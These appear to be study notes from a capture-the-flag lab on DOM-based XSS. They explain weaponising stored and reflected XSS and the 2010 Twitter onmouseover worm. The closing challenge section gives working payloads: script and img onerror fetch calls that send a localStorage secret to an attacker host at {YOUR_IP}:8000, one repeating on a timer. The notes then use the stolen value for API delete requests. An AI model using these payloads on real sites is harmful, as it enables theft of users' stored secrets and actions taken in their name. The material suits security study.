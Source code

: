 
To weaponize DOM-based XSS, we need to rely on the two conventional delivery methods of XSS payloads, namely storage and reflection. This is why DOM-based XSS, and other DOM-based attacks for that matter, are so hard to exploit. Without a proper delivery method, you are performing the attack on yourself and not a target.

To counter this, we either need the web server to store our payload for later delivery or to deliver the payload through reflection. At this point, our DOM-based XSS becomes a Stored or Reflected XSS attack.

Modern browsers have introduced **URL encoding** mechanisms, making **reflected XSS** harder to exploit when the source is the URL. This means that many traditional reflected XSS attacks fail because special characters (like `<script>`) are automatically encoded, preventing script execution.

As a result, **stored XSS** becomes a more viable attack vector, as it does not rely on URL-based reflection but rather on **persistent data stored on the server**.

Since stored XSS involves **injecting malicious scripts into stored user data**, attackers look for **sinks** where this data is later used **without sanitization or validation**. Potential sources include:
- **User profiles** (e.g., username, bio, comments, status updates).
- **Forum posts or reviews** where user content is stored and displayed.
- **Chat applications** that persist messages and display them dynamically.
- **Admin dashboards** that render user-submitted content.

 *Key Factors in Identifying Vulnerable Sinks*
- **Is the user input being properly escaped before rendering?** If not, it could lead to script execution.
- **Which function is injecting the data into the page?** If `innerHTML` or `document.write` is used, it’s a high-risk sink.
- **Is the data being processed by JavaScript after retrieval?**  If so, it could lead to **DOM-based stored XSS**.

## General Weaponization Guidelines
Oftentimes, you will find that it is easy to get the coveted `alert('XSS')` payload to work. However, this is usually where the fun ends, and if we are being honest with ourselves, we haven't actually shown impact.

The next crutch that is often used is to attempt to steal the user's cookie. However, this quickly becomes a problem when cookie security is enforced by using the HTTPOnly flag, disallowing JavaScript from recovering the cookie value. We need to dive deeper to weaponize the XSS vulnerability to achieve a valid exploit and show the true impact of what was found.

The following is a [great article](https://labs.withsecure.com/blog/getting-real-with-xss/) that talks about XSS weaponization. To fully weaponize XSS, we first need to realize the power of what we have. At the point where we can fully execute XSS and load a staged payload, we can control the user's browser. This means we can interface with the web application as the user would. We don't need to pop an alert or steal the user's cookie. We can instruct the browser to request on behalf of the user. This is what makes XSS so powerful. Even if you find XSS on a page where there isn't really anything sensitive, you can instruct the browser to recover information from other, more sensitive pages or to perform state-changing actions on behalf of the user. All we need to do is understand the application's functionality and tailor our XSS payload to leverage and use this functionality to our advantage. Let's take a look at a case study.


## Case Study - Twitter
In 2010, it was discovered that Twitter (now [X](https://twitter.com/?lang=en)) had a DOM-based XSS vulnerability. In an update to their JavaScript, Twitter introduced the following function:

```javascript
//<![CDATA[ (function(g){var a=location.href.split("#!")[1];if(a){g.location=g.HBR=a;}})(window); //]]>
```

Effectively, the function searched for `#!` in the URL and assigned the content to the `window.location` object, creating both a source and a sink without proper data validation and sanitisation. As such, an attacker could get the coveted pop-up simply using this payload:

`http://twitter.com/#!javascript:alert(document.domain);`

As mentioned before, this wouldn't really do anything. However, the issue was weaponised by [threat actors](https://archive.f-secure.com/weblog/archives/00002035). The vulnerability was weaponised using the `onmouseover` JavaScript function to create a worm that would:

- Retweet itself to further spread to new users
- Redirect users to other websites, in some cases containing further malicious payloads.
- Display pop-ups and other intrusive behaviours that could potentially phish for personal information.  

In the end, the weaponised exploit affected thousands of users. It is worth remembering that this was in 2010. If such a bug were found today, the impact would be even larger.


## Challenge
Also consider this challenge write-up: https://github.com/cyberterms/tryhackme-write-ups/blob/main/DOM-Based_Attacks/write-up.md  

![](Pasted%20image%2020250205160028.png)
	![](Pasted%20image%2020250205160130.png)
		![](Pasted%20image%2020250205160330.png)
			![](Pasted%20image%2020250205160514.png)

- Script for stealing victim's secret that is stored in browser local.storage:
```javascript
<script>fetch('http://{YOUR_IP}:8000/?data='+encodeURIComponent(localStorage.getItem('secret')))</script>
```

- XSS payload 
```javascript
<img src="1" onerror="fetch('http://{YOUR_IP}:8000/?secret='+encodeURIComponent(localStorage.getItem('secret')))">
```

- We have to set a delay interval to wait for our victim 
```javascript
<img src="1" onerror="setInterval(()=>fetch('http://{YOUR_IP}:8000/?secret='+encodeURIComponent(localStorage.getItem('secret'))), 6000)">
```

![](Pasted%20image%2020250205163520.png)
	![](Pasted%20image%2020250205163702.png)

secret: `thisisthesupersecretvalue` (modify the cookie value in the local storage in order to be able now to perform delete actions via API delete request)
	![](Pasted%20image%2020250205164338.png)
		![](Pasted%20image%2020250205164419.png)
			![](Pasted%20image%2020250205164450.png)